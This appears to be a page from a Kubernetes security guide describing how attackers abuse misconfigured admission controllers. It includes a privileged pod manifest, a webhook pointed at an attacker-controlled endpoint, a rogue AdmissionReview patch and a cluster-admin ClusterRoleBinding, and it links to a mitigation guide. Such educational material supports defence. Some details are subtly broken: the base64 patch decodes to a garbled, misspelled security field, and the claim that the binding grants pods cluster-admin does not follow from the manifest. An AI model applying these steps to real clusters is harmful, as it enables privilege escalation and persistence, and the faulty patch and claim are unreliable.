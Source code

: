 ```yaml
---
sidebar_position: 8
title: "Misconfigured Admission Controllers"
description: "How attackers exploit misconfigured Kubernetes admission controllers and insecure webhooks to bypass security policies."
---
```


# Misconfigured Admission Controllers

Kubernetes **admission controllers** intercept and validate requests before they reach the API server. When improperly configured—such as being disabled, weakly enforced, or exposing insecure webhooks—they become a key target for attackers seeking to **bypass security controls, escalate privileges, or persist within the cluster**.

---

## Exploitation Steps

### 1. Identify Disabled or Weak Admission Controllers

The attacker identifies which admission controllers are missing or misconfigured.

```bash
kubectl api-versions | grep admission
ps aux | grep kube-apiserver
```

If **PodSecurity**, **ValidatingAdmissionWebhook**, or **MutatingAdmissionWebhook** are missing, or misconfigured, the attacker proceeds.

---

### 2. Deploy Privileged Pods

Without proper admission policies, an attacker can launch pods that break security boundaries.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
spec:
  containers:
    - name: exploit-container
      image: alpine
      securityContext:
        privileged: true
```

If **PodSecurity admission** is missing or misconfigured, this pod will be created without restriction.

---

### 3. Discover and Inspect Webhooks

The attacker lists and inspects webhook configurations:

```bash
kubectl get mutatingwebhookconfigurations
kubectl get validatingwebhookconfigurations
kubectl describe mutatingwebhookconfiguration <webhook-name>
```

If a webhook forwards to an **unauthenticated external endpoint**, the attacker crafts a malicious configuration.

```yaml
clientConfig:
  url: "http://attacker-controlled-endpoint/webhook"
```

---

### 4. Hijack Webhook Behavior

The attacker spins up a rogue webhook server that modifies pod requests before creation:

```json
{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "response": {
    "allowed": true,
    "patch": "W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvdGVtcGxhdGUvc2VjdXJpdHlDb250ZXh0IiwidmFsdWUiOnsiYnJ1bnRhaW5lc2NhcGVzIjp7ImFsbG93UHJpdmlsZWdlZEVzY2FsYXRpb24iOnRydWV9fX1d"
  }
}
```

This patch adds privileged context to every created pod.

---

### 5. Maintain Persistence via ClusterRoleBinding

The attacker configures the webhook to inject RBAC permissions:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: attacker-binding
subjects:
  - kind: User
    name: attacker
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

This ensures **new pods receive cluster-admin privileges**, even after the attacker is removed from the system.

---

### Result

The attacker successfully **bypasses admission controllers**, injects **malicious pod configurations**, and gains **persistent cluster access** through insecure webhook logic and privilege escalation.

---

## Mitigation

➡ [See Mitigation Guide for Misconfigured Admission Controllers](/docs/best_practices/cluster_setup_and_hardening/api_server_security/misconfigured_admission_controllers_mitigation.md)

